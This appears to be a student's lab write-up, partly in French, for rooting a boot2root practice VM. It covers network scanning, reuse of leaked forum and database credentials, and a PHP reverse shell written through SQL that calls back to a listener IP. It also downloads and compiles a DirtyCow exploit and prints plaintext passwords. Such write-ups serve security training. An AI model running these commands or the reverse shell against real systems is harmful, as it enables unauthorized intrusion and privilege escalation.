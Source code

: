 Create a new VM from the ISO

Connect this VM as bridge adapter to be on same network as your host:

Find target's address:
    nmap -sn -PE -v IP_HOST/24

List ports on the target:
    nmap -sA -O -sV -vv -oN nmap.dump IP_TARGET/24


Install gobuster
    brew install gobuster

gobuster dir -u http://IP_TARGET/ -w WORDLIST_PATH

find /forum
on https

Interesting post: a dump of the target's connections log .

users in log:
lmezard
root
admin

users in forum:
admin
lmezard
qudevide
wandre
thor
zaz

this forum is powered by `My little forum`

My little forum

On the tab `login` we can try to connect as `lmezard` with the password `!q\]Ej?*5K5cy*AJ`.

Success !!


we find her email: `laurie@borstosec.net`

Nmap is finaly over.
Now we can detect several things
21 FTP VSFTPS 2.0.8
22 SSH OPENSSH 5.9p1
80 HTTP Apache 2.2.22
143: IMAP Dovecot imapd
    email dumped: root@born2sec.net
443 HTTP Apache 2.2.22
993 SSL/IMAP Dovecot imapd

We run the script Nikto and find:

/webmail/src/index.php

Version: `1.4.22`

we connect with 
    laurie@born2sec.net
    !q\]Ej?*5K5cy*AJ
Now we found other interesting things:
Some email including root's:
- qudevide@mail.borntosec.net
- ft_root@mail.borntosec.net

Some DB credentials:
user: root 
password: Fg-'kKXBj87E:aJ$

On the **official** website of `squirelMail` we can find that version bellow or equal to `1.4.22` are vulnerable at `arbitrary code execution` referenced as `CVE-2017-7692`.

With some research on this CVE we can easely find an exploit and test it.

On the phpmyadmin page
get a php webshell

Version: `3.4.10.1deb1`

...

Now we need to read this file.
For this purpose we need to look at a vulnerability called `locale file injection`.

We found nothing really interesting.

Sur le Readme de My little forum https://github.com/ilosuna/mylittleforum on peut lire que les permissions du repertoire `templates_c`.

Upload the shell and goto /forum/templates_c/exploit.php?e=cat /etc/passwd

reverse shell:
SELECT "<?php $sock=fsockopen(\"192.168.1.242\",8090);$proc=proc_open(\"/bin/sh -i\", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>" into outfile "/var/www/forum/templates_c/nat4.php";

Set your listener:
    nc -lvnk 8081
Go to https://TARGET_IP/forum/templates_c/nat4.php
You should now have received a connection from the target.



The dirty way:

The linux core under linux 3.9 are all vulnerable to the `dirtyCow` vulnerability.

Download an exploit of the `dirtyCow` vulnerability:
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c

Edit in the code the variable `username` to the user you want to reset his password.

compile it with:
    gcc -pthread dirty.c -o out -lcrypt

run it, give the new password wait a little and look at `/etc/passwd`.
You should find something like:
root:roK20XGbWEsSM

Run:
    sudo -c /bin/bash

Rentrez votre nouveau mot de passe.

TADAAM you are root now !!

Une fois root

Upgrade your shell:

Run:
- `python -c 'import pty; pty.spawn("/bin/bash")'`.

That's enought to run some command like su or sudo but if you want an even better shell add thoose commands:
- `export TERM=xterm` -- this will give us access to term commands such as clear.
- `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`.

dans /home/LOOKATME/password on trouve:
    lmezard:G!@M6f4Eatau{sF"
Connect as lmezard with 
    su lmezard

Here we have a challenge. An executable that can gives us the next password

# Pour plus tard

Checker le serveur VSFTPD
